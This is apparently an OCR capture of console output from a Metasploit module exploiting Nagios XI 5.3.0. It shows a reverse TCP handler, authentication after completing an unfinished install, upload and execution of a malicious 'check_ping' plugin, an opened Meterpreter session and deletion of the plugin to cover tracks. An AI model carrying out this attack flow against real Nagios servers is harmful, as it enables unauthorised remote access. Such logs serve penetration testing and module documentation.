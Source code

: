 ```

[*] Started reverse TCP handler on 192.168.1.28:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Attempting to authenticate to Nagios XI...
[!] The target seems to be a Nagios XI application that has not been fully installed yet.
[*] Attempting to finish the Nagios XI installation on the target using the provided password. The username will be `nagiosadmin`.
[*] Attempting to authenticate to Nagios XI...
[!] The Nagios XI license agreement has not yet been signed on the target.
[*] Attempting to sign the Nagios XI license agreement...
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.3.0
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[!] For NagiosXi version 5.3.0 it may take serveral minutes for a session to open. If the module times out, try increasing the `WfsDelay` value.
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3012516 bytes) to 192.168.1.16
[*] Meterpreter session 1 opened (192.168.1.28:4444 -> 192.168.1.16:36098) at 2021-04-01 10:42:40 -0400
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter > getuid
Server username: nagios @ localhost.localdomain (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter >
```
